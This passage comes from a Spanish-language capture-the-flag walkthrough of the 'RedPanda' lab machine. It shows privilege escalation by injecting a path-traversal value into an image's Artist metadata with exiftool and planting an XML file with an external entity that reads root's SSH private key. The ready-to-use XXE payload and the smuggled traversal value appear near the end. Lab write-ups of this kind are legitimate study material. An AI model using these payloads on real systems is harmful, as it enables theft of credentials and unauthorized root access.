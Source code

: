Además en otro archivo App.java podemos ver como maneja la metadata. Ahi también encontramos dónde está el código fuente de la aplicación web, que es App.java


![Desktop View](/assets/img/RedPanda/Pasted image 20221120011630.png){: width="972" height="589" }

Lea y comprenda cómo se procesan los archivos jpg y xml. Lee el artista y lo toma como una entrada de nombre de usuario, luego lee el registro de un uri y lo compara con el uri en el archivo xml correspondiente. Si todo coincide, entonces actualiza el archivo xml.

Pero además en el archivo nos muestra como maneja el User-Agent

![Desktop View](/assets/img/RedPanda/Pasted image 20221120011838.png){: width="972" height="589" }

Mirando esta configuración podemos inyectar en el campo "Artist", una ruta donde estará el xml, esto en una imagen cualquiera que despues subiremos a la máquina

Entonces, potencialmente, podemos engañar al analizador para que procese un archivo xml e incluya el id_rsa del usuario raíz en él.

Preparamos dos archivos, cualquier jpg y un archivo xml. Aquí hay un truco que puedes leer sobre el exploit: https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity

Desde nuestra maquina podemos obtener la imagen jpg asi:
```python
wget "https://avatars.githubusercontent.com/u/95899548?v=4"
```

Luego continuamos asi:
```python
mv 95899548\?v=4 gato.jpg
```
```python
exiftool -Artist="../home/woodenk/privesc" gato.jpg
```
```python
scp gato.jpg woodenk@10.129.227.207:.
```


![Desktop View](/assets/img/RedPanda/Pasted image 20221120012403.png){: width="972" height="589" }

A continuación crearemos en el home un archivo xml que apunte a la id_rsa de root, esto con el nombre definido en la imagen más `_creds.xml` que es lo suma el archivo que encontramos

```python
nano privesc_creds.xml
```
Pegamos y guardamos esto:
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY key SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/gato.jpg</uri>
    <privesc>&key;</privesc>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```
Ahora nos queda hacer una petición curl con el formato que vimos en el archivo como User-Agent

